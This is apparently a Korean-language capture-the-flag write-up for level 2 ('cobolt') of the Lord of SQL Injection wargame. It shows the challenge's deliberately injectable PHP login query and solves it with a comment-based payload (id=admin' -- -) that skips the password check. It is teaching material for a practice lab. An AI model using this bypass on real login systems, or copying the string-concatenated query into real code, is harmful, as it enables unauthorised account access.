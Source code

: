# Lord of SQL Injection No.2 - cobolt
## 문제 출제 의도 
SQL Injection을 통하여 SELECT문을 조작하여 원하는 값을 얻어낼 수 있는지 확인한다.
## 소스 코드 분석
~~~
<?php
  include "./config.php"; 
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
~~~
~~~
$query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
~~~
+ GET 방식으로 받은 id와 pw가 직접 쿼리문으로 삽입된다.(SQL Injection 가능)
+ 문제 풀이 성공 조건은 데이터 베이스에서 받은 id값에 'admin'이라는 값이 들어있으면 성공한다.
## Solution
1. admin 문자열 삽입
~~~
http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=admin' -- -
~~~
~~~
select id from prob_cobolt where id='admin' -- -' and pw=md5('')
~~~
이것은 결국 id값에 admin이 들어가게 한다.